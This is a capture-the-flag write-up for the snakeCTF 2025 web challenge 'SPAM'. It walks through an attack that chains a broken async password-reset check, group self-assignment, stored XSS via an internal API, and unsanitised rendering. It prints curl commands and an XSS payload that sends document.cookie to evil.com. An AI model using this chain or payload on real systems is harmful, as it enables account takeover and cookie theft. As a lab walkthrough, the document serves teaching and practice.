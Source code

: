# SPAM [_snakeCTF 2025 Quals_]

**Category**: Web
**Author**: macedonga

## Description

The Italian government's latest digital authentication masterpiece.
Built by the lowest bidder with the highest confidence. What could go wrong?

### Hints

- Sometimes promises aren't kept, especially with governments.
- Groups can be very... flexible in their membership requirements.
- Internal systems trust each other a bit too much.
- The test service renders things quite literally.

## Solution

The challenge requires chaining four distinct vulnerabilities to achieve XSS in the admin bot's browser context and exfiltrate the flag from cookies.

### Step 1: Insecure Password Reset

The password reset functionality contains a critical async/await bug. In `/api/auth/forgot.js`, the database query validation is missing an `await` statement:

```javascript
const tokenData = db.getResetToken(token); // Missing await
if (!tokenData) {
    // This check always passes because tokenData is a Promise (truthy)
}
```

Since `tokenData` is an unresolved Promise object, it is always truthy, causing the validation to pass regardless of token validity. When the code attempts to access `tokenData.userId`, it receives `undefined`, which causes `getUserFromId` to default to user ID 0 (the admin).

A password reset can be performed with any arbitrary token:

```bash
curl -X PATCH http://challenge.snakectf.org/api/auth/forgot \
  -H "Content-Type: application/json" \
  -d '{"token": "fake_token", "newPassword": "Pwned12345!"}'
```

### Step 2: Privilege Escalation via Group Assignment

After gaining admin access, the `assignGroup` action in `/api/actions` can be exploited. The endpoint lacks proper authorization checks preventing admins from assigning themselves to privileged groups.

The admin account can be elevated to the "System" group:

```bash
curl -X POST http://challenge.snakectf.org/api/actions \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <admin_token>" \
  -d '{"action": "assignGroup", "params": {"userId": 0, "groupId": 0}}'
```

### Step 3: Stored XSS via Internal API

With "System" group privileges, access is granted to the `/api/internal/sync` internal API endpoint and the test service (platform 0). The `/api/internal/sync` endpoint allows profile updates without proper input sanitization:

```bash
curl -X POST http://challenge.snakectf.org/api/internal/sync \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <system_token>" \
  -d '{"firstName": "<script>fetch(\"https://evil.com/?c=\" + document.cookie)</script>"}'
```

### Step 4: XSS Execution in Test Service

The "test" service (platform 0) renders user profiles directly into HTML without sanitization. When the admin bot navigates to the test service dashboard, it executes the injected JavaScript payload.

The malicious script runs in the bot's browser context, extracting cookies containing the flag and sending them to the attacker's controlled server.